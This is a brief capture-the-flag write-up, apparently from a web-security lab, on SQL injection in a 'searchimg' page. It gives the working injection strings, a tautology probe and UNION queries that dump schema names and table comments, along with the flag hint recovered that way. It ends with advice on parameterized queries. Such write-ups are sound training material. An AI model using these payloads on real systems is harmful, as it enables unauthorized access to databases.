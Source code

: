 # SQL Injection

## Location

```
http://ip/?page=searchimg
```
## Breach
in the input we tried the value 1 or 1=1  to check if there is an sql injection possibiltie and we got a response,
so we tried to look more into it by getting some database information using the next query
```
1337 or 1=1 UNION select table_name, column_name FROM information_schema.columns
```
after multiple queries combinations with the next query we succeeded to get some useful dinstructions to get our flag
```
1337 or 1=1 union select comment, id FROM list_images
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

## Solution

the best approach is controlling and vetting user input to watch for attack patterns. 
use Parametrized queries or an database orm.